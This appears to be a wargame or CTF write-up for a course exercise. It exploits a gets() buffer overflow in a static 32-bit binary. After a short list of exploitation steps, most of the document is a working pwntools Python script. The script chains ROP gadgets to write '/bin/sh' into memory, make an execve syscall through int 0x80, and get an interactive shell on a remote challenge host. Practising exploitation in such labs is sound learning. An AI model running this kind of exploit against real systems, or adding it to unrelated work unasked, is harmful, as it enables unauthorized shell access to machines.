 List of vulnerabilities
------------------------
- The binary uses gets() which keeps reading from stdin until it reaches a new line or EOF, this can result in a buffer overflow

Steps to exploit
------------------
1. Use checksec to see which security measures have been used, and only NX has been used.
2. Find the address that is used to make the syscall to /bin/sh.
3. eax can be used for evecve, ebx is the address in memory of string /bin/sh, ecx is the address of a pointer to the string /bin/sh, and 0x80 is syscall instruction
4. Using the pointers above set up a rop chain that calls the /bin/sh into a writeable memory region
5. Find the size of the buffer to overflow to a writeable region of memory

Script/Command used
------------------
```
#!/usr/bin/env python2

from pwn import *
from time import sleep
import re
from struct import pack


p = remote('wargames.6447.sec.edu.au', 8004)
#p = process('./static')
p.recv()

f = lambda x : pack('I', x)
IMAGE_BASE_0 = 0x08048000 # static
rebase_0 = lambda x : f(x + IMAGE_BASE_0)
rop = ''
rop += rebase_0(0x00073236) # 0x080bb236: pop eax; ret; 
rop += '//bi'
rop += rebase_0(0x00026ada) # 0x0806eada: pop edx; ret; 
rop += rebase_0(0x000a3060)
rop += rebase_0(0x0005254d) # 0x0809a54d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00073236) # 0x080bb236: pop eax; ret; 
rop += 'n/sh'
rop += rebase_0(0x00026ada) # 0x0806eada: pop edx; ret; 
rop += rebase_0(0x000a3064)
rop += rebase_0(0x0005254d) # 0x0809a54d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00073236) # 0x080bb236: pop eax; ret; 
rop += f(0x00000000)
rop += rebase_0(0x00026ada) # 0x0806eada: pop edx; ret; 
rop += rebase_0(0x000a3068)
rop += rebase_0(0x0005254d) # 0x0809a54d: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x000001c9) # 0x080481c9: pop ebx; ret; 
rop += rebase_0(0x000a3060)
rop += rebase_0(0x0009ef54) # 0x080e6f54: pop ecx; push cs; or al, 0x41; ret; 
rop += rebase_0(0x000a3068)
rop += rebase_0(0x00026ada) # 0x0806eada: pop edx; ret; 
rop += rebase_0(0x000a3068)
rop += rebase_0(0x00073236) # 0x080bb236: pop eax; ret; 
rop += f(0x0000000b)
rop += rebase_0(0x000271a0) # 0x0806f1a0: int 0x80; ret; 
 
p.recv()
p.sendline('A'*0xc + rop)
p.interactive()

```
